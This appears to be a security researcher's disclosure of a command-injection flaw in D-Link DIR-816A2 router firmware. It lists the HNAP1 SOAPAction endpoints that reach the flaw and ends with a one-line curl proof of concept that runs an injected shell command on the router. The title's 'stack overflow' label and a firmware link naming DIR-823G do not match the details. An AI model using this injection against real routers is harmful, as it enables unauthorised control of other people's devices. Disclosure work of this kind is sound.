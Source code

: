 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Stack overflow vulnerability

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823G

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

The parameter a7 is the post request data, and a7 is spliced ​​into v11 as log data, and then v11 is executed as a system command.

![](img/2.png#center)

This vulnerability can be triggered when the SOAPAction is any of the following urls.
    http://purenetworks.com/HNAP1/SetMultipleActions
    http://purenetworks.com/HNAP1/CheckPasswdSettings
    http://purenetworks.com/HNAP1/FirmwareDownloadCancel
    http://purenetworks.com/HNAP1/GetAccessCtlList
    http://purenetworks.com/HNAP1/GetAccessCtlSwitch
    http://purenetworks.com/HNAP1/GetAdvNetworkSettings
    http://purenetworks.com/HNAP1/GetAPClientSettings
    http://purenetworks.com/HNAP1/GetAutoRebootSettings
    http://purenetworks.com/HNAP1/GetAutoUpgradeFirmware
    http://purenetworks.com/HNAP1/GetCAPTCHAsetting
    http://purenetworks.com/HNAP1/GetClientInfo
    http://purenetworks.com/HNAP1/GetCurrentInternetStatus
    http://purenetworks.com/HNAP1/GetDDNSSettings
    http://purenetworks.com/HNAP1/GetDeviceDomainName
    http://purenetworks.com/HNAP1/GetDeviceSettings
    http://purenetworks.com/HNAP1/GetDHCPClientInfo
    http://purenetworks.com/HNAP1/GetDMZSettings
    http://purenetworks.com/HNAP1/GetFactoryDefault
    http://purenetworks.com/HNAP1/GetFirewallSettings
    http://purenetworks.com/HNAP1/GetFirmwareStatus
    http://purenetworks.com/HNAP1/GetFirmwareValidation
    http://purenetworks.com/HNAP1/GetGuestNetworkSettings
    http://purenetworks.com/HNAP1/GetGuestWLanSettings
    http://purenetworks.com/HNAP1/GetGuestZoneRouterSettings
    http://purenetworks.com/HNAP1/GetInternetConnUpTime
    http://purenetworks.com/HNAP1/GetIPv4FirewallSettings
    http://purenetworks.com/HNAP1/GetLanWanConflictInfo
    http://purenetworks.com/HNAP1/GetLocalMacAddress
    http://purenetworks.com/HNAP1/GetMACFilters2
    http://purenetworks.com/HNAP1/GetMyDLinkSettings
    http://purenetworks.com/HNAP1/GetNetworkSettings
    http://purenetworks.com/HNAP1/GetNetworkTomographyResult
    http://purenetworks.com/HNAP1/GetNetworkTomographySettings
    http://purenetworks.com/HNAP1/GetNTPServerSettings
    http://purenetworks.com/HNAP1/GetOperationMode
    http://purenetworks.com/HNAP1/GetParentsControlInfo
    http://purenetworks.com/HNAP1/GetPPPoEServerStatus
    http://purenetworks.com/HNAP1/GetQoSManagementType
    http://purenetworks.com/HNAP1/GetQoSSettings
    http://purenetworks.com/HNAP1/GetRouterInformationSettings
    http://purenetworks.com/HNAP1/GetRouterLanSettings
    http://purenetworks.com/HNAP1/GetScheduleSettings
    http://purenetworks.com/HNAP1/GetSmartconnectSettings
    http://purenetworks.com/HNAP1/GetStaticClientInfo
    http://purenetworks.com/HNAP1/GetStaticRouteSettings
    http://purenetworks.com/HNAP1/GetSystemUpTime
    http://purenetworks.com/HNAP1/GetUplinkInterface
    http://purenetworks.com/HNAP1/GetUpnpSettings
    http://purenetworks.com/HNAP1/GetVirtualServerSettings
    http://purenetworks.com/HNAP1/GetWanConnectionType
    http://purenetworks.com/HNAP1/GetWanCurrentStatus
    http://purenetworks.com/HNAP1/GetWanplugInfo
    http://purenetworks.com/HNAP1/GetWanSettings
    http://purenetworks.com/HNAP1/GetWanSpeedTest
    http://purenetworks.com/HNAP1/GetWanStatus
    http://purenetworks.com/HNAP1/GetWifiDownSettings
    http://purenetworks.com/HNAP1/GetWLanRadioSecurity
    http://purenetworks.com/HNAP1/GetWLanRadioSettings
    http://purenetworks.com/HNAP1/GetWPSSettings
    http://purenetworks.com/HNAP1/Login
    http://purenetworks.com/HNAP1/PollingFirmwareDownload
    http://purenetworks.com/HNAP1/RunReboot
    http://purenetworks.com/HNAP1/SetAccessCtlList
    http://purenetworks.com/HNAP1/SetAccessCtlSwitch
    http://purenetworks.com/HNAP1/SetAdvNetworkSettings
    http://purenetworks.com/HNAP1/SetAPClientSettings
    http://purenetworks.com/HNAP1/SetAutoRebootSettings
    http://purenetworks.com/HNAP1/SetAutoUpgradeFirmware
    http://purenetworks.com/HNAP1/SetClientInfo
    http://purenetworks.com/HNAP1/SetDDNSSettings
    http://purenetworks.com/HNAP1/SetDeviceSettings
    http://purenetworks.com/HNAP1/SetDMZSettings
    http://purenetworks.com/HNAP1/SetFactoryDefault
    http://purenetworks.com/HNAP1/SetFirewallSettings
    http://purenetworks.com/HNAP1/SetGuestWLanSettings
    http://purenetworks.com/HNAP1/SetIgnoreWizardConfig
    http://purenetworks.com/HNAP1/SetIPv4FirewallSettings
    http://purenetworks.com/HNAP1/SetLanWanConflictInfo
    http://purenetworks.com/HNAP1/SetNetworkSettings
    http://purenetworks.com/HNAP1/SetNetworkTomographySettings
    http://purenetworks.com/HNAP1/SetNTPServerSettings
    http://purenetworks.com/HNAP1/SetParentsControlInfo
    http://purenetworks.com/HNAP1/SetPasswdSettings
    http://purenetworks.com/HNAP1/SetPPPoEServerSettings
    http://purenetworks.com/HNAP1/SetQoSManagementType
    http://purenetworks.com/HNAP1/SetQoSSettings
    http://purenetworks.com/HNAP1/SetRouterLanSettings
    http://purenetworks.com/HNAP1/SetSmartconnectSettings
    http://purenetworks.com/HNAP1/SetStaticClientInfo
    http://purenetworks.com/HNAP1/SetStaticRouteSettings
    http://purenetworks.com/HNAP1/SetTriggerADIC
    http://purenetworks.com/HNAP1/SetUpnpSettings
    http://purenetworks.com/HNAP1/SetVirtualServerSettings
    http://purenetworks.com/HNAP1/SetWanSettings
    http://purenetworks.com/HNAP1/SetWanSpeedTest
    http://purenetworks.com/HNAP1/SetWifiDownSettings
    http://purenetworks.com/HNAP1/SetWLanRadioSecurity
    http://purenetworks.com/HNAP1/SetWLanRadioSettings
    http://purenetworks.com/HNAP1/SetWPSSettings
    http://purenetworks.com/HNAP1/StartFirmwareDownload
    http://purenetworks.com/HNAP1/UpdateClientInfo

## Vulnerability verify

![](img/3.png#center)

![](img/4.png#center)

## POC

```
a='`echo hack>/web_mtn/hack.txt`' ; curl http://192.168.0.1/HNAP1 -H 'SOAPAction: "http://purenetworks.com/HNAP1/SetPasswdSettings"' -d "'$a'" -s >/dev/null ; curl http://192.168.0.1/hack.txt -s
```
